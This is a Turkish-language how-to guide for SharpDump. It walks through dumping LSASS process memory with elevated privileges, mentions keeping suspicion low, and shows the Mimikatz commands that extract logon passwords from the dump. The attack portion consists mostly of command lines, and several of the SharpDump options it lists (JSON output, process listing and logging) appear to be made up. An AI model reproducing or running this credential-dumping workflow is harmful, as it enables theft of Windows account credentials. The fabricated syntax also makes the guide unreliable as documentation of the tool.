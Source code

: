 # SharpDump.exe Kullanım Kılavuzu

## Giriş
SharpDump, Windows bellek alanından LSASS (Local Security Authority Subsystem Service) gibi kritik proseslerden çekirdek dump alma aracıdır. Bu aracın ana amacı, bellek içeriğinden hassas bilgileri toplamak ve sıklıkla kimlik bilgileri (credentials) elde etmek için kullanılmasıdır.

---

## Özellikler
- **Bellek Dump Alma**: LSASS gibi hedef proseslerden dump alır.
- **Windows Task Manager veya Sysinternals Aracı Gerekliliği Yok**: Bu işlem için ek yazılımlara gerek duymaz.
- **Yüksek Hızlı İşlem**: Minimum şupe uyandıracak şekilde dump oluşturur.

---

## Gereksinimler
- Windows işletim sistemi
- Yüksek yetkiler (Çoğunlukla Administrator veya SYSTEM yetkisi gerekir)

---

## Komut Satırı Kullanımı

### Yardım Mesajını Görüntüleme
SharpDump'un desteklediği komutları ve kullanım detaylarını görmek için:
```cmd
SharpDump.exe -h
```

### LSASS Dump Alma
LSASS prosesinin dumpını almak için:
```cmd
SharpDump.exe -WriteMiniDump "C:\Temp\lsass.dmp"
```

### Tüm Proseslerin Listesini Çıkarma
Sistemde çalışan tüm prosesleri listelemek için:
```cmd
SharpDump.exe -ListProcesses
```

### Belirli Bir Prosesin Dumpını Alma
Özellikle belirli bir prosesin (PID ile) dumpını almak için:
```cmd
SharpDump.exe -WriteMiniDump "C:\Temp\specific_process.dmp" -ProcessId 1234
```

### JSON Formatında Çıktı
Toplanan verileri JSON formatında bir dosyaya kaydetmek için:
```cmd
SharpDump.exe -WriteMiniDump "C:\Temp\lsass.json" -OutputFormat json
```

---

## Örnek Kullanımlar

### LSASS Belleğinden Kimlik Bilgisi Toplama
LSASS dump alıp daha sonra Mimikatz gibi bir araçla analiz etmek için:
```cmd
SharpDump.exe -WriteMiniDump "C:\Temp\lsass.dmp"
```
Ardından, dump dosyasını Mimikatz'da analiz edin:
```cmd
mimikatz.exe
sekurlsa::minidump C:\Temp\lsass.dmp
sekurlsa::logonPasswords
```

### Tüm Bellek Dumpını Listeleme ve Kayıt
Tüm bellek dump işlem adımlarını görüntülemek ve bir log dosyasına kaydetmek için:
```cmd
SharpDump.exe -LogProcesses "C:\Temp\process_log.txt"
```

---

## Derleme Talimatları
SharpDump kaynak koddan derlenebilir.

### Adımlar:
1. Visual Studio Community Edition'ı yükleyin.
2. Projeyi açın (`SharpDump.sln`).
3. Çözüm yapılandırmasını "Release" olarak seçin.
4. Projeyi derleyin.

---

## Kaynaklar
- [SharpDump GitHub](https://github.com/GhostPack/SharpDump)
- [GhostPack Belgeleri](https://posts.specterops.io/)

Bu rehber, SharpDump aracını kullanmanın temel adımlarını kapsamaktadır. Daha fazla bilgi için yukarıdaki bağlantılara göz atabilirsiniz.
